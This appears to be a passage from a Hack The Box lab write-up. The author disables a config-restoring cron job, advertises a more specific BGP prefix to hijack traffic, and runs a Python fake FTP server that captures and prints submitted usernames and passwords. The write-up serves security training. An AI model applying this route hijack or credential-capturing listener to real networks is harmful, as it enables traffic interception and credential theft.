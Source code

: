 
{% include image.html image_alt="a2d240ca.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/a2d240ca.png" %}


Now, before we modify the prefix advertisement in `r1`, know this. There's a `cron` job that reverts `quagga` to its default configuration, lending evidence that I'm taking the right approach.


{% include image.html image_alt="06082df7.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/06082df7.png" %}


The above can be shown with `crontab -l`. And here's what `/opt/restore.sh` looks like.


{% include image.html image_alt="15f58d6f.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/15f58d6f.png" %}


We need to disable the `cron` job. Add a comment with a `#` to disable it.

```
#*/10 * * * * /opt/restore.sh
```

Next, advertise the most specific 10.120.15.10/32 prefix like so. Restart `quagga` and wait for the advertisement to propagate to the other two AS.


{% include image.html image_alt="db7492c0.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/db7492c0.png" %}


The prefix is updated.


{% include image.html image_alt="0c7c2d2e.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/0c7c2d2e.png" %}


The next step involves setting a service listening at `21/tcp`. I wrote a simple FTP server that does nothing but to extract the username and password; and to print it to `stdout`.

<div class="filename"><span>ftp.py</span></div>

```python
import socket

host = ''
port = 21

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
  s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
  s.bind((host,port))
  s.listen(1)
  conn, addr = s.accept()
  with conn:
    while True:
      conn.send(b"220 Welcome to FTP\r\n")
      print(conn.recv(1024).decode('utf_8')[:-2])
      conn.send(b"331 User name okay need password\r\n")
      print(conn.recv(1024).decode('utf-8')[:-2])
      break
    conn.close()
  s.shutdown(socket.SHUT_RDWR)
  s.close()
```


[1]: https://www.hackthebox.eu/home/machines/profile/155
[2]: https://www.hackthebox.eu/home/users/profile/9267
[3]: https://www.hackthebox.eu/